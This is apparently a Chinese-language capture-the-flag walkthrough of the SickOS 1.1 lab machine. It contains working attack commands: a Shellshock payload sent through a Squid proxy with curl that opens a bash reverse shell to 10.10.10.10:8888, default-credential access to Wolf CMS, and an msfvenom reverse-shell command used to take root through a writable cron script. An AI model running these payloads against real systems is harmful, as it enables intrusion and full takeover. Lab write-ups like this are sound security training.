








# SickOS 1.1(X)

## namp扫描分析

  

## squid代理分析

squid是一个代理软件，直接访问3128端口无效
我们需要通过代理访问，如图
  
然后可以访问80端口  
同时，扫描时也需要通过代理参数扫描，dirb、nikto等

```
dirb http://10.10.10.19 -p http://10.10.10.19:3128  

nikto -h 10.10.10.19 -useproxy http://10.10.10.19:3128
```

  
  

## web渗透

### 方法1

当我们可以访问robots.txt时，可以发现wolfcms路径，这是一个wolf cms，  
cms的渗透思路就是，找管理员后台  
然后默认密码，弱口令尝试，或者通过cms版本漏洞进行利用  
当我们进入主页面时可以看到url是这样的  
  
与常规的url不一样，有? 然后我们通过google找到的管理员后台也有问号，以此知道  

```
10.10.10.19/wolfcms/?/admin/login
```

然后就是看这个cms是否开源，是否有默认密码，然后在admin:admin成功登录  
进入后台之后有很多利用点，执行php代码，文件上传等能够获得webshell  

### 方法2

我们从nikto的结果来看可以看到/cgi-bin/status有shellshock漏洞  
接下来可以用curl验证shellshock漏洞，注意ua头冒号后面有两个空格  

```
User-Agent:  () { :; };echo Content-Type: text/plain; echo; /bin/ls;
```

反弹shell，这个shellshock一般存在cgi接口处，原理就不解释了  

```
curl -v --proxy http://10.10.10.19:3128 http://10.10.10.19/cgi-bin/status  
-H "User-Agent:  () { :; };/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/8888 0>&1';"
```

## 提权

### 方法1

在获得初始shell之后，我们进行一系列基本操作之后，我们可以发现web目录下的config.php  
  
里面有数据库连接凭据，这当然不会直接是root的密码，我们可以用这个密码尝试其他用户  
然后我们能够登录sickos用户，并且sudo su能够直接提权  

### 方法2

在web目录下可以看到一个777的py文件  
  
同时我们在/etc/cron.d/automate文件里看到了这个文件将以root身份执行  
  
在这里我们就了解到任务计划不只是在/etc/crontab文件里  
我们可以用msfvenom生成一句反弹shell的话，如下  

```
msfvenom -f cmd/unix/reverse_python lhost=10.10.10.10 lport=6666 -f raw
```
然后我又发现了一个在线网站

```
https://www.revshells.com/
```
开启监听，等待即可root

## 总结

方法1这个提权不是难度，但如果是初次接触代理，可能就没法进行下一步。  
方法2则是寻找任务计划程序，不是那么容易，不过我们找到能够特殊的py文件之后  
应该可以想到，然后再去寻找任务计划文件，还有就是msfvenom生成反弹shell语句。  

